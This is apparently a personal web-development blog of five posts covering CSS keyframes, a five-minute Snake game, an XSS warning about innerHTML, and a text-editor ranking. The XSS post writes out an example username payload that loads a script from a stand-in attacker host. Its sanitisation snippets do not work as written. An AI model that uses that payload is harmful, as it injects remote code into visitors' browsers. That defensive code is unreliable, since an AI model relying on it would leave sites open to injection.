




How to use CSS Keyframes
A quick and simple guide
In your website, have you ever wanted to make custom animations without flash or special custom gifs?
Well, CSS keyframes solve this problem. CSS keyframes allow you to create custom animations for most HTML elements.
So how do I use them?
Well, keyframes are first called by an element with the animation CSS property.
The animation property looks like this:
animation: exampleAnimation 1s linear infinite;
This will make the animation call the “exampleAnimation” keyframe, which will last 5 seconds, and be linear (go at the same pace regarless of time), and will loop infinitely.
But, of course, this won’t work, because we haven’t defined “exampleAnimation.”
The define this, we use the “@keyframes” selector.
For our example animation it would start like this:
@keyframes exampleAnimation {
}
Now we need to specify our animation inside the curly parentheses.
To make an animation, we specify a time in the animation, and styles that correspond to that time.
With the times written, your element will automatically smoothly transition from each time style to the next.
For example, we could have the keyframe:
@keyframes exampleAnimation {
0% {
opacity: 0;
transform: scale(0);
}
100% {
opacity: 1;
transform: scale(1);
}
}
This would give your element a nice fade in and pop in effect.
But this still will be weird, because we set the animation to infinite.
Let’s take the infinite out.
It still doesn’t work though, because the final style in the keyframe expires after the animation is over.
We can add some Javascript to compensate, though.
Essentially we’ll just use the setTimeout function to add a class with the final styles to the element.
That could look like this:
button.onclick = function(){
// Add class with animation
element.setAttribute("class","animateIn");
setTimeout(function(){
element.setAttribute("class","animateIn animated");
},1000);
}
The animated class could just have styles that look exactly like the final styles in our keyframe:
.animated {
opacity: 1;
transform: scale(1);
}
That’s all for this week!
I hope you learned something from this post!
Quick update: I’ll probably be posting more on Wednesdays now!
console.log("Bye!");
How I Coded Snake in Under 5 Minutes
A simple explanation
So a little while back I did a presentation where I programmed snake in front of around 50 people in under 5 minutes (I managed it in 4:42).
The program was written from scratch in just HTML, CSS and Vanilla JS, all in one file.
Your probably thinking “You must have really great memorization skills and typing speed”
This really just isn’t the case. Fast typing speeds is definitely a plus, but it isn’t completely vital.
So what did I do to go so quickly?
Well, I spent a while making the program as short as possible.
I got rid of everything that wasn’t needed to make it work.
I also put everything in one file - CSS in “style” tags, and JS in “script” tags.
Furthermore, I tried to copy and paste as much as possible (and as fast as possible).
Ok, can I just see the code?
Sure, I’ll walk you through what I did, and the code.
First, I wrote the HTML element for the entire snake container, which would contain the snake and apples.
I made the ID of this element “game,” so that it was easy to edit in the Javascript code.
<div id='game'></div>
Next, I started writing the CSS.
<style></style>
I first reset the margin and padding of all elements, so that they don’t get in the way.
* {
margin: 0;
padding: 0;
}
Then, I style the game container.
I set the background to black, the height to the height of the window, and the width to the same as the height, so that the game container is a square.
#game {
background-color: #000;
width: 100vh;
height: 100vh;
}
Next, I style the divs inside the game container. These divs will be the grid spaces of the snake body and apple.
I set the width and height to 5% of the window height, so that it is 1/20 of the game container.
Thus, there will be 20 grid spaces on each side, and 400 grid spaces in all (20 x 20 = 400).
I also set their position to absolute, so that I can easily position them in the Javascript.
Finally, I add a black border to add a grid-spacing effect.
The black border adds size to the grid spaces, and to get rid of that extra space, I set the box sizing to border box.
I also make the background green.
#game div {
width: 5vh;
height: 5vh;
position: absolute;
box-sizing: border-box;
border: 2px solid black;
background-color: #0f0;
}
The apple will have a background color of red, so I add that to my CSS.
#game div.apple {
background-color: #f00;
}
Okay, now we’re done with the CSS.
If you’re a decently fast typer, you should be able to write this portion and the HTML in a minute or so.
So now we need to start the JS.
<script></script>
To begin, I declare all the necessary variables.
These will be:
- My player (snake head) position variables (px and py)
- My apple position variables (ax and ay)
- My velocity variables for movement and direction (xv and yv)
- My trail array holding the entire tail of the snake (everything but the head)
- My gameover variable which checks if the game is over
I ignore the var before the variable declaration, as it is not needed, and I try to use a single declaration for multiple variables when possible.
px=py=9;
ax=ay=xv=yv=0;
trail=[{x: 9,y: 9}];
gameover=false;
Next, I add the arrow key event listeners.
Here copy and paste is a really big help.
document.onkeydown = function(e){
switch(e.keyCode){
case 37:
xv=-1;yv=0;
break;
case 39:
xv=1;yv=0;
break;
case 38:
yv=-1;xv=0;
break;
case 40:
yv=1;xv=0;
}
}
Now comes the main part of the game: the main game loop.
The game loop is essentially a giant function that repeats over and over again.
In the case of the snake game, I’m making the game loop repeat every 1/10 of a second, to make the snake move fast, but not too fast.
We can use the setInterval function to achieve a game loop.
setInterval(function(){
// Code Here
},100);
In the game loop, I start by adding the velocity to the snakes position, creating a moving effect.
px += xv;
py += yv;
Then I add a couple of if statements to add the effect of the snake going through the walls.
Again, copy and paste is very useful here.
if(px == -1){
px = 19;
}
if(px == 20){
px = 0;
}
if(py == -1){
py = 19;
}
if(py == 20){
py = 0;
}
Next, I clear my game board and draw the apple.
I use the style attribute to position the apple at the right position.
document.getElementById("game").innerHTML = "";
document.getElementById("game").innerHTML += "<div class='apple' style='left: " + ax*5 + "vh; top: " + ay*5 + "vh;'></div>";
I then add my gameover checking.
if(gameover){
location.reload();
alert("gameover :(");
}
Now, I loop through the entire trail, and draw each grid space of the snakes body.
I use the .forEach function to quickly loop through the array.
I also use this to check if the snakes head is touching it’s tail, and the snake has actually started moving.
trail.forEach(function(item,index){
document.getElementById("game").innerHTML += "<div style='left: " + item.x*5 + "vh; top: " + item.y*5 + "vh;'></div>";
if(item.x == px && item.y == py && (xv + yv) != 0){
gameover = true;
}
});
To make the illusion that the snake is moving, we need to cut off the last part of its tail and add an extra grid space for its head.
To do this, we’ll use the trail.shift and trail.push functions.
But, when the snake eats an apple, we want it to grow, right? Well we can do that by only cutting off the last part of its tail when it didn’t eat an apple.
if(ax == px && ay == py){
ax = Math.floor(Math.random() * 20);
ay = Math.floor(Math.random() * 20);
}else{
trail.shift();
}
trail.push({x: px, y: py});
Now we have a workable version of snake. This is the version I programmed in 5 minutes, but there are a few bugs to fix.
The first one and main one is that if you try to go the opposite direction you’re currently in, you lose.
This is because the program tries to make the head literally go backwards, which will collide with the snakes tail.
All we have to do is not allow the direction change if the current direction is the opposite of the desired direction.
Here’s the new code for the key event listener switch statement:
case 37:
if(xv!=1){
xv=-1;yv=0;
}
break;
case 39:
if(xv!=-1){
xv=1;yv=0;
}
break;
case 38:
if(yv!=1){
yv=-1;xv=0;
}
break;
case 40:
if(yv!=-1){
yv=1;xv=0;
}
Okay, That’s it!
Now all that’s left is to practice a few times and memorize the steps.
If you want to download the code, go here, and if you want to just play, go here.
I hope you liked this post!
var week = 7;
console.log("See you in " + week + " days!");
The Problem with innerHTML
How innerHTML makes your site hackable
element.innerHTML = "Post by " + username;
This simple line of code might seem “innocent” and well written, but it can actually cause quite a bit of trouble.
Imagine you have a website where a user can post a video, similar to Youtube, and when they published a video, it would say “Post by “ and then their username under their video.
Their username would be fetched from the backend, and the code above would be used to display the message.
With a regular user this would work perfectly fine, but what if someone wants to hack your website?
What would happen if that person registered an account on your site and made their username <script src='http://hackerwebsite.com/hack.js'></script>?
Well, since you used the innerHTML property, the script in their username would be injected into everyone that viewed that persons video.
Now imagine that hacker made a viral video. Well, millions of people would have that script injected into their computer.
This sort of hack is called Cross Site Scripting, or XSS for short.
It is the most popular hack on the internet, and has affected millions of websites such as Google, Youtube, and Facebook.
So, what can you do to protect yourself?
For starters, if there is any data that you are putting in an HTML element via .innerHTML, make sure it is from a trusted source - not a user or other person. If you do have any data from a non-trusted source, you can use the innerText property instead, or the .text() function in jQuery.
Here’s the new code:
element.innerText = "Post by " + username;
Furthermore, when a user is registering for your site, block characters such as <, >, (, or ), because regular users don’t need them for normal usernames, and they tend to be used in injected scripts, as well as HTML elements.
Here’s an example of this implemented:
usernameInput.oninput = function(){
// Last character entered
var enteredChar = this.value[this.value.length-1];
// List of blocked characters
var charsBlocked = ["<",">","(",")"];
// If entered character is blocked
if(charsBlocked.indexOf(enteredChar)!=-1){
// Take away entered character
this.value[this.value.length-1] = "";
}
}
You can also use the .replace() function to simply delete any occurences of <script> or </script> in a string.
For example:
username.replace("<script>", "");
username.replace("</script>", "");
element.innerHTML = "Post by " + username;
Cross Site Scripting affects thousands of websites every year.
If your site is vulnerable to XSS attacks, hackers could potentially transmit important data to their servers, such as your entire javascript window object (containing all of your variables and functions), or they could even steal sensitive information such as user passwords, and more.
Whenever you are using .innerHTML, I suggest you check if your site could be vulnerable to XSS attacks, and change your code correspondingly.
Anyway, thanks for reading!
element.innerText = "This site is not vulnerable to XSS attacks.";
The Best Text Editor
What is the best text editor?
Every web developer has to choose a text editor to use, but which one is the best?
In my opinion, every text editor has to have a few features to actually be good.
These features include:
- Syntax highlighting for popular languages
- Easily installable set of packages and themes
- A file managements toolbar
- Fast startup
With these main features taken into account, I’ve created my own list of the best text editors, that are available for both Mac and Windows.
Please also note that this list is just my opinion, and I suggest that you look at all of the features of each text editor, and choose the one that is most appealing to you.
So, without further ado, this is my list.
1. Visual Studio Code

Not to be confused with the popular but very annoying and non-user friendly Visual Studio, VSCode has all of the features of some of the greatest text editors, but with a large array of packages, an extremely large amount of support for syntax highlighting for thousands of languages, and a friendly but fully featured interface.
VSCode starts up pretty quick, although not as fast as other alternatives (ie. Atom or Sublime), and upon opening, you see a screen where you have a few options. The most useful and most important option is to open a folder or file, which will generally be the current project you’re working on.
After opening a folder, you are presented with a toolbar with all of your files, similar to toolbars in most other code editors.
VSCode comes preinstalled with syntax highlighting for all of the main programming technologies, but you can also download additional syntax highlighting support for other languages via the package management tab.
Along with basic syntax highlighting, Emmet, a popular web development shortcut tool, comes preinstalled with VSCode, which is actually pretty handy in some situations. However, Emmet can easily be installed in many other popular text editors as well.
VSCode also comes with a very sophisticated debugging tool, unlike any other. The debugging tool is one of the most useful in VSCode as a whole, and in my opinion, is what separates VSCode from other popular text editors.
Additionally, VSCode was built using Electron, the tool that Github created that allows desktop apps to be built using web technologies (HTML, CSS, Javascript, Nodejs). This means that the VSCode settings are actually in a JSON format, which makes the setting a lot easier to edit, as the format is familiar to most (if not all) web developers.
All in all, VSCode comes with all of the great features of all of the other popular text editors, but is faster, more sophisticated, and updated regularly.
Also, it is my main text editor.
2. Atom

Atom was created by Github not so long ago, and is very similar to VSCode in several ways.
First of all, Atom has and extremely well designed user interface, with easy to edit settings, and a wide amount of keyboard shortcut options.
Atom also has a large community of people building Atom packages and themes, which are easy to install (and uninstall) via the packages and themes tabs.
Among these packages and themes, Emmet is available, of course.
Not long ago, the Atom team developed a very useful package for Atom, called Atom Teletype.
Atom Teletype allows developers to collaborate on code in real time, giving programmers a “Google Docs” type experience.
Ultimately, I would recommend Atom to semi-experienced developers that are looking for a text editor to make programming significantly faster, but isn’t too overkill.
3. Sublime Text

Sublime Text is the most lightweight but still functional editor out there.
Sublime boots up lighting fast, and has all the basic tools any developer needs - a file management toolbar, quick file multitasking, and most of all, easy code editing. The Sublime Text user interface is extremely simple and easy to use, but with that said, Sublime isn’t that sophisticated.
The package management system is honestly really annoying and complicated to understand (and hard to find), and Sublime only supports a few languages for syntax highlighting.
I would say that Sublime Text is the best text editor for beginners, as it is simple to use, but doesn’t have many advanced features.
4. Brackets

Brackets was created by Adobe a few years back, and it some pretty great features that really separate from most other text editors.
On its own, Brackets has all of the basic tools of a text editor. It has good syntax highlighting, a whole library of themes and packages, as well as a simple user interface.
Along with all of these features, it has a few unique ones.
First, Brackets comes with a live editor preinstalled.
Basically, you can click a button, and live view of your website is displayed on Google Chrome.
Upon changing the current file, the live view will reload automatically.
On top of that, the live view highlights the HTML element that your cursor is on in Brackets, so that you can see what you are changing, in real time.
Another great feature in Brackets is the “Inline Support,” as Adobe calls it.
Essentially, all you have to do is press Ctrl-E (or Cmd-E) and you can view all of the CSS affecting the HTML element your cursor in currently on. This can be useful if you want to quickly edit the styles of an element without having to go to your CSS file and find the style declaration.
Overall, Brackets is a pretty great text editor that I would definitely recommend for beginners because of its ease of use, and it’s pretty cool unique features.
5. Webstorm
Webstorm is probably the best text editor on this list. It has great support for debugging, a library of thousands of packages, amazing syntax highlighting support, and a bunch of other really useful features.
Right now, you might be thinking “Why didn’t you put Webstorm at #1?”
Well, a license for Webstorm costs $130 per year, and honestly, the extra features that Webstorm has compared to VSCode aren’t really worth $130 per year.
If you’re already a successful and experienced web developer with a couple hundred bucks to spare, Webstorm could be for you.
Jetbrains, the creator of Webstorm also has a variety of other IDEs, and a license for all of them is only $600, so if you do a lot of programming in a large array of languages, you could simply just pay for the full license, and get a code editor for each of the languages you use.
Jetbrains also updates Webstorm and other editors regularly, and many top-notch companies, such as Twitter, Valve, and HP use their products as their main code editors.
So, that’s my list!
That’s all for my list of best text editors.
As I said earlier, I suggest you look at all of the features of each editor and choose the one that you like the most, because, as much as I hate to say it, my opinion is not fact.
Well, that’s all for this week.
<h1>Thanks For Reading, and I'll see you next week!</h1>
A Brief Introduction
My First Blog Post
console.log("Hello World.");
Well hello there! My name is Fred. Fred Adams.
If you’re reading this and you’re not me, well, I’m very happy that you are!
I’ve spent quite a bit of time making this blog, even if I do have Github Pages (and Jekyll) to help me.
So who am I anyway?
I’m basically a sort of tech-addict. I like to buy tech, play around with it, and anything else you could possibly think about to do with tech.
You’re probably thinking that I live a pretty depressing life because I just stay indoors 24/7 and play around with tech.
Although that is partly true, I don’t just play around with tech.
I do A LOT of programming.
I mainly do web development, but I also am pretty good at Python and Java.
I work on completely random projects, some of which are actually useful, and others are just… random.
I’m also constantly learning about the new and shiny technologies in the programming world. And also the old technologies that I haven’t gotten around to learning yet.
I honestly can’t guarantee you that my programming is completely top notch, because I’ve only been programming for around 4 years, and counting, of course.
So why should I listen to you if you only have 4 years of experience??
Well, honestly, I don’t know why you should listen to me.
I’m starting this blog because I read several good blogs myself, and I wanted to give something back to the programmer community.
And even if I only have a few years of experience, I assure you that I will put my best effort into making these posts as easy to read, as easy to understand, and as professional as I possibly can.
So how is this blog going to work exactly?
Well, I will post on this blog every Saturday at 9:45 PM Eastern Standard Time.
These posts will all be about programming, whether I’m talking about a new project I’m working on, or explaining a new (or old) programming technology.
But if you’re not interested in hearing me talk about random programming topics, I will post on Wednesdays (12:00 PM EST) every once in a while.
Wednesday posts will generally be me ranting about the latest Apple product, or maybe why you should really start using VSCode right now.
I guess that’s all for now.
document.write("<h1>Thanks For Reading!</h1>");